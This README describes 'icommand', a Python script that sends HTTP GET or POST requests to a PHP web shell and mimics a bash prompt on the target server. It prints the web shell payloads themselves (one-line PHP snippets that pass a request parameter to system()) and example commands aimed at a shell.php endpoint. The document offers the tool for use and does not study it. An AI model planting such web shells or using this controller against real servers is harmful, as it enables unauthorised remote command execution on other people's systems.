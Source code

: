 icommand - command controller for PHP system function
---
### Info: ###
icommand is a command controller for PHP _program execution functions_ like system, passthru, exec and etc ...  
The script tries to simulate Linux bash as it works from CLI  
It sends requests to the server through urllib/urllib2 [Python][] modules  

* icommand works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
* --url is a positional argument withing GET and POST requests:
    - python icommand.py --url http://testserver.com/shell.php?cmd=  
  	- python icommand.py --url http://testserver.com/shell.php --method POST --parameter cmd

[Python]: http://www.python.org/download/
* __p.s.__ [Python][] v2.6 or v2.7 is required for running this script.